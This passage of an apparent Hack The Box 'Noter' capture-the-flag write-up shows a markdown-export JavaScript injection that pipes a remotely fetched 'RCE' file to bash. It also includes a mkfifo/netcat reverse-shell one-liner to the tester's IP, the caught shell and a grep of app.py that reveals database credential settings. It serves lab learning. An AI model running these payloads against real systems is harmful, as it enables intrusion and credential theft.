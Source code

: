 ![](/assets/img/noter/13rcesuccess.png)
```
┌──(egovridc㉿egovridc)-[~/…/htb/noter/app/www]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.160 - - [06/Sep/2022 13:04:11] "GET /test.md HTTP/1.1" 200 -
10.10.11.160 - - [06/Sep/2022 13:05:26] "GET /test.md HTTP/1.1" 200 -
10.10.11.160 - - [06/Sep/2022 13:06:46] "GET /test.md HTTP/1.1" 200 -
10.10.11.160 - - [06/Sep/2022 13:07:55] "GET /test.md HTTP/1.1" 200 -
10.10.11.160 - - [06/Sep/2022 13:08:36] "GET /test.md HTTP/1.1" 200 -
10.10.11.160 - - [06/Sep/2022 13:09:18] "GET /test.md HTTP/1.1" 200 -
10.10.11.160 - - [06/Sep/2022 13:09:29] "GET /test.md HTTP/1.1" 200 -
10.10.11.160 - - [06/Sep/2022 13:09:51] "GET /test.md HTTP/1.1" 200 -
10.10.11.160 - - [06/Sep/2022 13:09:52] code 404, message File not found
10.10.11.160 - - [06/Sep/2022 13:09:52] "GET /RCE HTTP/1.1" 404 -
```
Simple explanation of the attacking scenario.
1. Attacker will create a file known as `test.md` which have a malicious payloads.
2. Attacker will host the site by using python server.
3.  On website when user clicks the export button the `test.md` will be executed and the most important part is the file named `RCE`
4. 
**Creating a file with a reverse shell payload.**

_**RCE**_
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 1234 >/tmp/f
```
_**test.md**_
```
---js\n((require("child_process")).execSync("curl 10.10.14.114:8000/RCE | bash"))\n---RCE
```
_**netcat**_
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/noter]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.114] from (UNKNOWN) [10.10.11.160] 50186
/bin/sh: 0: can't access tty; job control turned off
$ whoami
svc
$ 
```
## Privilege Escalation.
After get shell, there are few files that contains important information, one of these files contain the database credentials as shown below.
```
svc@noter:~/app/web$ cat app.py | grep pass
from passlib.hash import sha256_crypt
app.config['MYSQL_PASSWORD'] = 'DB_password'
    password = PasswordField('Password', [
        password = sha256_crypt.encrypt(str(form.password.data))
```